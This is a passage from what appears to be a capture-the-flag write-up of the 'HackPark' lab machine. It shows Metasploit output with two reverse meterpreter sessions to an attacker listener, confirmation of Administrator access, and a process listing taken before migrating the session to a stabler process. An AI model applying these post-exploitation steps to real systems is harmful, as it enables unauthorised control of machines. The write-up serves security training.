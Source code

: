 ```bash
===============

  Id  Name  Type                     Information                        Connection
  --  ----  ----                     -----------                        ----------
  1         meterpreter x64/windows  IIS APPPOOL\Blog @ HACKPARK        10.10.7.59:4444 -> 10.10.167.66:49250 (10.10.167.66)
  2         meterpreter x86/windows  HACKPARK\Administrator @ HACKPARK  10.10.7.59:4443 -> 10.10.167.66:49273 (10.10.167.66)

msf5 exploit(multi/handler) > sessions 2
[*] Starting interaction with 2...

meterpreter > getpid
Current pid: 1260
meterpreter > getuid
Server username: HACKPARK\Administrator
```

Success! I had an administrative account. I decided to move the session to a stabler process than the one i currently had, with the print spooler being my default first choice.

```powershell
meterpreter > ps

Process List
============

 PID   PPID  Name                  Arch  Session  User                          Path
 ---   ----  ----                  ----  -------  ----                          ----
 0     0     [System Process]                                                   
 4     0     System                x64   0                                      
 368   4     smss.exe              x64   0                                      
 520   512   csrss.exe             x64   0                                      
 580   568   csrss.exe             x64   1                                      
 588   512   wininit.exe           x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\wininit.exe
 616   568   winlogon.exe          x64   1        NT AUTHORITY\SYSTEM           C:\Windows\System32\winlogon.exe
 672   588   services.exe          x64   0                                      
 740   672   svchost.exe           x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\svchost.exe
 784   672   svchost.exe           x64   0        NT AUTHORITY\NETWORK SERVICE  C:\Windows\System32\svchost.exe
 820   672   svchost.exe           x64   0        NT AUTHORITY\LOCAL SERVICE    C:\Windows\System32\svchost.exe
 868   616   dwm.exe               x64   1        Window Manager\DWM-1          C:\Windows\System32\dwm.exe
 876   672   svchost.exe           x64   0        NT AUTHORITY\LOCAL SERVICE    C:\Windows\System32\svchost.exe
 904   672   svchost.exe           x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\svchost.exe
 964   672   svchost.exe           x64   0        NT AUTHORITY\LOCAL SERVICE    C:\Windows\System32\svchost.exe
 1020  672   svchost.exe           x64   0        NT AUTHORITY\NETWORK SERVICE  C:\Windows\System32\svchost.exe
 1156  672   amazon-ssm-agent.exe  x64   0        NT AUTHORITY\SYSTEM           C:\Program Files\Amazon\SSM\amazon-ssm-agent.exe
 1216  672   svchost.exe           x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\svchost.exe
 1236  672   LiteAgent.exe         x64   0        NT AUTHORITY\SYSTEM           C:\Program Files\Amazon\Xentools\LiteAgent.exe
 1292  672   svchost.exe           x64   0        NT AUTHORITY\NETWORK SERVICE  C:\Windows\System32\svchost.exe
```